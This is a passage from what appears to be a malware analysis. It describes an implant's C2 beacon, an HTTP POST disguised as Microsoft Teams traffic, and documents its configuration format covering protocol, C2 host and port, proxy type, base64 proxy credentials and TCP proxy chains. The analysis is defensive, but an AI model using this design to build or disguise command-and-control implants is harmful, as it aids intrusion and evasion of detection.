 


123456

POST /Collector/3.0/ HTTP/1.1Content-Type: application/x-www-form-urlencodedHost: mobile.pipe.microsoft.com:8080User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv 11.0) like GeckoContent-Length: 430Cache-Control: no-cache




We may infer that the attacker was trying to emulate Microsoft Teams behavior, although the “User-Agent” and the “Host” headers are incorrect.
C2 Info
The C2_INFO contains multiple information items specified with the following format:





%Protocol% \r %C2_Hostname% \r %C2_Port% \r %Proxy_Type% \r Proxy_Info




1

%Protocol% \r %C2_Hostname% \r %C2_Port% \r %Proxy_Type% \r Proxy_Info




The protocol is a numeric value that identify the communication protocol:

HTTP
HTTPS
TCP

The C2 hostname and port are self-explanatory.
The “Proxy_Type” is another integer that can have three different values:

No Proxy. Connect to the C2 directly
System Proxy
Manual Proxy

When the value is equal to “3”, the agent will try to decode a base64 string embedded in “Proxy_Info” that contains different information, according to the specified protocol. When the protocol is HTTP or HTTPS, the following information must be specified:





%Proxy_Address% : %Proxy_Port% \t %Proxy Username% \t %Proxy_Password%




1

%Proxy_Address% : %Proxy_Port% \t %Proxy Username% \t %Proxy_Password%




If the protocol is TCP, the decoded strings could specify a proxy chain with up to 255 hops.


